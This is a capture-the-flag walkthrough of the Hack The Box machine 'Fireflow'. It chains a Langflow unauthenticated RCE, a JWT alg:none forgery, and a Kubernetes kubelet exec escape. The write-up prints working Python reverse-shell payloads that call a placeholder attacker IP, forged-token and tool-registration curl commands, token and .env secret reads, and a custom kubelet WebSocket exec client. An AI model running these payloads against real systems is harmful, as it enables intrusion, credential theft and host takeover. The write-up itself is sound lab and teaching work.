





# HTB Fireflow — Walkthrough

## Machine Info

| Field | Detail |
|-------|--------|
| Platform | Hack The Box |
| Machine | Fireflow |
| Difficulty | Medium |
| OS | Linux (Ubuntu 24, kernel 6.8), single-node k3s Kubernetes cluster |
| IP | 10.129.X.X |
| Status | Retired |
| CVEs exploited | CVE-2026-33017 (Langflow unauthenticated RCE) |

---

## Summary

Fireflow is a six-phase chain across an AI workflow platform, a service-mesh authentication component, and a Kubernetes cluster. External reconnaissance identifies a hidden vhost through TLS certificate inspection; Langflow's public playground endpoint (CVE-2026-33017) yields unauthenticated RCE by submitting Python inside a component definition. Recovered credentials are reused for SSH, providing shell access as `nightfall`. An internal MCP AI Tool Registry accepts JWTs with `alg:none`, allowing a user token to be trivially upgraded to admin; admin then grants code execution inside a Kubernetes pod. The compromised pod's service account holds `get` on `nodes/proxy`, enabling discovery of a privileged monitoring pod with the host root filesystem mounted. Direct WebSocket exec against the kubelet API on port 10250 bypasses the API server's RBAC verb enforcement and executes a command inside the privileged pod, yielding host root.

---

## Step 1: External Reconnaissance

**Objective:** identify open services and map the external attack surface.

```bash
export IP=[REDACTED_TARGET]
nmap -p- --min-rate 2000 -oN Fireflow_Full_Scan $IP
nmap -p 22,443 -sVC -oN Fireflow_Initial_Scan $IP
```

Only two ports exposed externally: OpenSSH 9.6p1 on 22, and nginx on 443. All Kubernetes ports firewalled from outside.

**What this told me:**
- The TLS certificate on 443 had `CN=fireflow.htb` and `SAN=*.fireflow.htb`. The wildcard SAN is the signal to enumerate virtual hosts: the certificate is prepared for multiple hostnames, so the operator is expecting them to exist. The organisation ("Task Force Nightfall") on the certificate was worth noting as a candidate username theme.

**Screenshot:** 



---

## Step 2: Virtual Host Enumeration

**Objective:** discover vhosts hinted at by the wildcard certificate.

```bash
echo "$IP fireflow.htb" | sudo tee -a /etc/hosts

gobuster vhost -k -u https://fireflow.htb \
  -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
  -t 40 --append-domain -o Fireflow_Vhost_Scan
```

The `-k` bypasses self-signed cert validation; `--append-domain` sends `word.fireflow.htb` as the Host header (essential and easy to forget).

`flow.fireflow.htb` returned Status 200, Size 1142.

**What this told me:**
- A hidden vhost that the external port scan alone would never have revealed. Added to `/etc/hosts` and moved on. This is the same TLS-cert-to-vhost pattern I saw on Kobold; reading the certificate should be a habit at this stage of every engagement.

**Screenshot:**



---

## Step 3: Langflow Reconnaissance and Flow ID Discovery

**Objective:** identify the Langflow version and locate exploitable endpoints.

Browsing `https://flow.fireflow.htb` surfaced a public playground URL of the form `/playground/<FLOW_ID>`. The UUID is exposed on the public page.

```bash
curl -sk https://flow.fireflow.htb/api/v1/version
# {"version":"1.8.2","main_version":"1.8.2","package":"Langflow"}
```

Langflow 1.8.2 is affected by CVE-2026-33017.

**What this told me:**
- A published `flow_id` plus a version known to have an unauthenticated RCE on the endpoint that consumes flow IDs. The exploitation path was decided at this point; what remained was building a payload that survived the server's validators.

---

## Step 4: Traffic Capture and Payload Iteration

**Objective:** capture the request format and craft a working RCE payload.

Traffic was captured through Caido (Firefox proxied to `127.0.0.1:8080`, Caido CA cert imported). Sending a chat message via the playground triggered:

```
POST /api/v1/build_public_tmp/[REDACTED_FLOW_ID]/flow?start_component_id=ChatInput-608En&log_builds=false&event_delivery=streaming
```

The request body contained the entire flow graph, including each component's Python source in `template.code.value`. The client was submitting the code the server would execute.

Three payload iterations, each documented because the failures were instructive:

**Attempt 1:** naive reverse shell dropped into `ChatInput.template.code.value`.

```python
import os,pty,socket
s=socket.socket()
s.connect(("[ATTACKER_IP]",4444))
[os.dup2(s.fileno(),f) for f in (0,1,2)]
pty.spawn("/bin/bash")
```

Rejected: `"No Component subclass found in the code string"`. Langflow's `extract_class_name()` validator parses the source and requires a `Component` subclass definition.

**Attempt 2:** added a bare `Component` subclass.

```python
from lfx.custom import Component
import os,socket,pty
s=socket.socket()
s.connect(("[ATTACKER_IP]",4444))
[os.dup2(s.fileno(),f) for f in (0,1,2)]
pty.spawn("/bin/bash")
class Pwn(Component):
    pass
```

Rejected: `"Attribute message_response not found in Pwn"`. Progressed one layer: the validator passed, but instantiation calls `_get_method_return_type("message_response")`.

**Attempt 3:** placed the shell inside a `message_response` method.

```python
from lfx.custom import Component
from lfx.schema.message import Message
import os,socket,pty

class Pwn(Component):
    def message_response(self):
        s=socket.socket()
        s.connect(("[ATTACKER_IP]",4444))
        [os.dup2(s.fileno(),f) for f in (0,1,2)]
        pty.spawn("/bin/bash")
        return Message(text="pwn")
```

Accepted.

**What this told me:**
- The lesson worth internalising: the validator reads the label, the executor runs the code. Server-side "safety" here was structural pattern matching, not semantic analysis. Any payload that looked like the expected shape would be executed; the shape did not have to be functional beyond the pattern check.

---

## Step 5: Firing the Exploit

**Objective:** trigger the payload and catch the reverse shell.

The endpoint is asynchronous: `POST` returns a `job_id`, then a follow-up `GET` streams events and triggers execution. Both had to be chained back-to-back to beat the job queue TTL.

```bash
# 1) Modify captured request in Caido Replay with payload, then Send
# → returns {"job_id":"<JOB_ID>"}

# 2) Immediately:
curl -k -N "https://flow.fireflow.htb/api/v1/build_public_tmp/<JOB_ID>/events"
```

Listener `nc -lvnp 4444` caught the callback as `www-data@fireflow`.

**What this told me:**
- Async endpoints with separate submit and trigger steps are common in modern APIs. The lesson is that `job_id` values are perishable: submit and subscribe must be near-instant, or the queue drops it. First timing failure was mistaken for a payload problem; it was actually a race problem.

**Screenshot:**



---

## Step 6: Enumeration and Credential Recovery

**Objective:** find credentials or configuration that enable lateral movement.

```bash
cat /etc/langflow/.env
```

Disclosed:

```
LANGFLOW_SUPERUSER_PASSWORD=[REDACTED]
LANGFLOW_SECRET_KEY=[REDACTED]
```

**What this told me:**
- Application-level credentials on a shared host frequently get reused as system-user credentials, because operators use the same password everywhere. The organisation branding ("Task Force Nightfall") plus the themed password strongly suggested a user called `nightfall` might exist.

---

## Step 7: Lateral Movement to nightfall

**Objective:** test the recovered credential against SSH.

```bash
ssh nightfall@fireflow.htb
# password: [REDACTED]
```

Interactive shell as `nightfall`. User flag captured.

Home directory enumeration:

```bash
cat ~/.mcp/config.json
```

Disclosed credentials for a second service on port 30080 (redacted). Additional observations:

- `~/.bash_history` symlinked to `/dev/null` (anti-forensics measure by the box author, worth noting from a detection standpoint).
- `sudo -l` returned "may not run sudo."
- Port 30080 fell in the Kubernetes NodePort range (30000 to 32767): a strong hint that Kubernetes was involved.

```bash
ss -tlnp
```

Confirmed Kubernetes control plane: kube-apiserver on 6443, kubelet on 10250, kube-* components on 10256 to 10259. MCP server on 30080 was bound to loopback only.

**What this told me:**
- Two new attack surfaces opened simultaneously: the MCP service on a loopback-only port, and a full Kubernetes cluster. The MCP service was the direct next step; Kubernetes would become the target once a foothold inside it was obtained. NodePort ranges are a k8s tell worth remembering.

---

## Step 8: SSH Port Forward and MCP API Enumeration

**Objective:** reach the loopback MCP service from Kali and understand its API.

```bash
ssh -fN -L 30080:127.0.0.1:30080 nightfall@[REDACTED_TARGET]
```

`-L` maps Kali's local port through SSH to the target's loopback. `-fN` backgrounds SSH with no remote command: pure tunnel.

```bash
curl -i http://127.0.0.1:30080/api/v1/version
curl -i http://127.0.0.1:30080/openapi.json
```

The version endpoint disclosed:

```json
{
  "service": "MCP AI Tool Registry",
  "auth": {"type":"JWT","supported_algorithms":["HS256","none"]},
  "endpoints": ["POST /mcp", "POST /api/v1/auth", "GET /api/v1/tools", "POST /api/v1/tools [admin]"]
}
```

**What this told me:**
- Two immediate flags. The `openapi.json` `ToolRegisterRequest` schema included a `code` field: user-supplied code being registered as a tool is functionally the same as user-supplied code being executed, which is the same RCE class as the Langflow flaw. And `supported_algorithms` explicitly listed `"none"`. The server was advertising the vulnerability. SSH tunnels bytes, not permissions: I still had to solve app-layer authentication.

---

## Step 9: Legitimate Authentication and JWT alg:none Forge

**Objective:** obtain a valid session, then forge an admin token.

Legitimate authentication with the credentials from `~/.mcp/config.json`:

```bash
curl -X POST http://127.0.0.1:30080/api/v1/auth \
  -H "Content-Type: application/json" \
  -d '{"username":"langflow-bot","password":"[REDACTED]"}'
```

Returned a legitimate HS256 JWT (redacted) with `role: user`.

The forgery:

```bash
HEADER=$(echo -n '{"alg":"none","typ":"JWT"}' | base64 -w0 | tr '+/' '-_' | tr -d '=')
PAYLOAD=$(echo -n '{"sub":"langflow-bot","role":"admin"}' | base64 -w0 | tr '+/' '-_' | tr -d '=')
FORGED="${HEADER}.${PAYLOAD}."
```

The trailing dot with an empty signature is the canonical unsigned-JWT format.

**What this told me:**
- If the server lists `none`, the server accepts `none`. The advertised algorithm list is not marketing, it is functional configuration. Post-exploitation source review later confirmed an explicit `if alg == "none": decode(..., options={"verify_signature": False})` branch: the vulnerability was a deliberate developer choice, not a library quirk.

---

## Step 10: Tool Registration RCE

**Objective:** register a malicious tool with admin privileges and invoke it for RCE.

The MCP server executes tool code via `subprocess.Popen(["python3", "-c", tool["code"]])` with a 30-second timeout. Standard reverse-shell payloads died when the parent subprocess was killed. Solution: double-fork daemonisation to detach the shell from the parent process group.

```bash
curl -X POST "http://127.0.0.1:30080/api/v1/tools" \
  -H "Authorization: Bearer $FORGED" \
  -H "Content-Type: application/json" \
  -d '{"name":"dshell","description":"d","code":"[REDACTED_PAYLOAD]"}'

curl -X POST "http://127.0.0.1:30080/mcp" \
  -H "Authorization: Bearer $FORGED" \
  -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","id":1,"method":"tools/call","params":{"name":"dshell","arguments":{}}}'
```

Listener `nc -lvnp 5555` caught the callback as `mcp@mcp-server-54464cb475-29ztf`. The shell was inside a container.

Source review of `/app/main.py` (readable inside the container) confirmed:

- `JWT_SECRET = "mcp-jwt-secret-do-not-share"` hardcoded HS256 signing secret (secondary forgery vector).
- The explicit `alg:none` decode branch.
- The Popen-based tool execution sink.

**What this told me:**
- The tool store was in-memory. Registration and invocation had to be chained back-to-back or the tool would be dropped. The double-fork was necessary because the executor propagates signals from the parent process: any Ctrl+C on my netcat side would kill the shell without daemonisation. Environmental discipline mattered here as much as the exploit itself.

**Screenshot:**



---

## Step 11: Kubernetes Service Account and RBAC Enumeration

**Objective:** understand what the pod's identity can do.

```bash
cat /run/secrets/kubernetes.io/serviceaccount/namespace
# → default
cat /run/secrets/kubernetes.io/serviceaccount/token
# → [REDACTED]
```

Service account: `mcp-sa` in namespace `default`. Token audiences included `k3s`, confirming a k3s single-node cluster.

Self-permission review against the API server:

```bash
TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
CA=/run/secrets/kubernetes.io/serviceaccount/ca.crt
API=https://10.43.0.1

curl -sk --cacert $CA -H "Authorization: Bearer $TOKEN" \
  -X POST -H "Content-Type: application/json" \
  "$API/apis/authorization.k8s.io/v1/selfsubjectrulesreviews" \
  -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"default"}}'
```

Non-default permission returned:

```json
{"verbs":["get"],"apiGroups":[""],"resources":["nodes/proxy"]}
```

`get` on `nodes/proxy`: the kubelet API proxy. `create` was not granted.

**What this told me:**
- `nodes/proxy` with `get` alone was a strong signal that the intended path was direct kubelet access, not API-server-proxied POST-based exec. The absence of `create` would matter shortly. This is exactly the kind of RBAC misconfiguration that should never appear on a workload service account.

---

## Step 12: Pod Enumeration and Privileged Pod Discovery

**Objective:** enumerate pods on the node via the kubelet proxy and identify escape targets.

```bash
curl -sk --cacert $CA -H "Authorization: Bearer $TOKEN" \
  "$API/api/v1/nodes/fireflow/proxy/pods"
```

Response listed all pods on the node. The `monitoring/prometheus-prometheus-node-exporter-nmntq` pod stood out:

```yaml
securityContext:
  privileged: true
  runAsUser: 0
  runAsNonRoot: false
  allowPrivilegeEscalation: true
volumes:
  - name: root
    hostPath: {path: /}
volumeMounts:
  - name: root
    mountPath: /host/root
hostNetwork: true
hostPID: true
```

**What this told me:**
- Host root filesystem mounted at `/host/root` inside a privileged container running as root. Any command executed inside this pod would have full host access. The escape path was decided: get code execution inside this pod, then read the flag from `/host/root/root/root.txt`. `hostPath: /` plus `privileged: true` plus `runAsUser: 0` equals a shell on the host, disguised as a monitoring workload.

---

## Step 13: POST-Based Exec (Denied)

**Objective:** attempt the obvious exec path first.

```bash
curl -sk --cacert $CA -H "Authorization: Bearer $TOKEN" \
  -X POST "$API/api/v1/nodes/fireflow/proxy/run/monitoring/[REDACTED_POD]/node-exporter?cmd=cat+/host/root/root/root.txt"
```

Returned 403:

```
nodes "fireflow" is forbidden: User "system:serviceaccount:default:mcp-sa" cannot create resource "nodes/proxy"
```

**What this told me:**
- The API server enforces verb-per-HTTP-method mapping: POST requires `create`. I had `get`, not `create`. The API-server-proxied POST-based path was closed. But the kubelet listens directly on 10250, and its `/exec` endpoint uses WebSocket, which is initiated as a GET. GET, not POST. If the kubelet accepted the same service account token the API server did, the WebSocket exec path would be reachable with the `get` verb I already had.

---

## Step 14: Root via Direct Kubelet WebSocket Exec

**Objective:** exec into the privileged pod via kubelet's WebSocket endpoint.

Custom WebSocket client (`kube_exec.py`) written on Kali and transferred into the mcp pod via a Kali-hosted HTTP server:

```python
#!/usr/bin/env python3
import asyncio, ssl, sys, websockets

NODE = "[REDACTED_TARGET]"
NE_NS = "monitoring"
NE_POD = "[REDACTED_POD]"
NE_CNT = "node-exporter"

TOKEN = open('/var/run/secrets/kubernetes.io/serviceaccount/token').read().strip()
COMMAND = sys.argv[1] if len(sys.argv) > 1 else 'id'

async def ws_exec(cmd_parts):
    ctx = ssl.create_default_context()
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE
    args = "&".join(f"command={part}" for part in cmd_parts)
    url = f"wss://{NODE}:10250/exec/{NE_NS}/{NE_POD}/{NE_CNT}?output=1&error=1&{args}"
    async with websockets.connect(
        url, ssl=ctx,
        additional_headers={"Authorization": f"Bearer {TOKEN}"},
        subprotocols=["v4.channel.k8s.io"],
        open_timeout=10
    ) as ws:
        try:
            while True:
                data = await asyncio.wait_for(ws.recv(), timeout=5)
                if isinstance(data, bytes) and len(data) > 1:
                    sys.stdout.write(data[1:].decode("utf-8", errors="replace"))
                    sys.stdout.flush()
        except (asyncio.TimeoutError, websockets.exceptions.ConnectionClosed):
            pass

asyncio.run(ws_exec(COMMAND.split()))
```

Transfer chain:

```bash
# Kali:
cd /tmp && sudo python3 -m http.server 80

# In mcp pod:
curl -o /tmp/kube_exec.py http://[ATTACKER_IP]/kube_exec.py
python3 /tmp/kube_exec.py "cat /host/root/root/root.txt"
```

Root flag captured.

**What this told me:**
- The kubelet API on 10250 is a design surface most operators forget about. It trusts any token the API server trusts, which sounds sensible until you realise it also has its own authorisation model that does not necessarily mirror the API server's verb-per-method logic. The API server can enforce careful RBAC granularity and the kubelet can undo it, because the kubelet is downstream of the same auth token but not downstream of the same authorisation policy. Two entry points to the same operation, same auth, different verb requirement. That is the entire root of the escalation.

**Screenshot:**



---

## Flags

| Flag | Method | Status |
|------|--------|--------|
| User | SSH as `nightfall` via reused Langflow superuser password | [REDACTED] |
| Root | Direct kubelet WebSocket exec into privileged pod, reading host filesystem | [REDACTED] |

---

## Tools Used

| Tool | Purpose |
|------|---------|
| nmap | Port scanning and service enumeration |
| Gobuster | Virtual-host fuzzing |
| Caido | HTTPS traffic capture and replay |
| curl | HTTP and API interaction throughout |
| netcat (nc) | Reverse-shell listeners |
| ssh | Interactive host access and port forwarding |
| kube_exec.py (custom) | Python WebSocket client for direct kubelet exec |
| python3 | Payload crafting, HTTP file server for pod transfer |

---

## Lessons Learned

1. The client should not ship the engine. Both RCE findings on this box (Langflow and MCP) exploit the same pattern: the client submits code and the server evaluates it with only pattern-matching validation. Two independent teams built two independent services and made the same mistake. This is a class of finding worth remembering: whenever you see user-submitted code fields in an API schema, that is where to look first.
2. Advertised interfaces are functional interfaces. The MCP server explicitly listed `"supported_algorithms": ["HS256","none"]` in its version endpoint. That was not documentation, it was configuration. If a server says it accepts a mode, test the mode. Servers do not lie about what they support.
3. Kubernetes RBAC granularity can be undone at layers below the API server. The API server refused POST-based exec because `create` was not granted. The kubelet accepted WebSocket exec because it uses GET and the kubelet trusts the same token. Two entry points to the same operation, same auth, different verb requirement. When enumerating a compromised pod, always consider whether the kubelet is directly reachable, not just the API server.

---

## References

| Resource | URL |
|----------|-----|
| CVE-2026-33017 | https://nvd.nist.gov/vuln/detail/CVE-2026-33017 |
| Langflow project | https://github.com/langflow-ai/langflow |
| Kubernetes RBAC good practices | https://kubernetes.io/docs/concepts/security/rbac-good-practices/ |
| Kubernetes Pod Security Standards | https://kubernetes.io/docs/concepts/security/pod-security-standards/ |
| Kubelet authentication and authorisation | https://kubernetes.io/docs/reference/access-authn-authz/kubelet-authn-authz/ |
| JWT alg:none historical vulnerability class | https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ |
| CWE-347 (Improper Verification of Cryptographic Signature) | https://cwe.mitre.org/data/definitions/347.html |
| CWE-863 (Incorrect Authorization) | https://cwe.mitre.org/data/definitions/863.html |

---

*This walkthrough documents a Hack The Box machine completed in an authorised lab environment for educational purposes. Flags are redacted. No unauthorised systems were accessed. Publication is gated on confirmed retirement of the machine.*
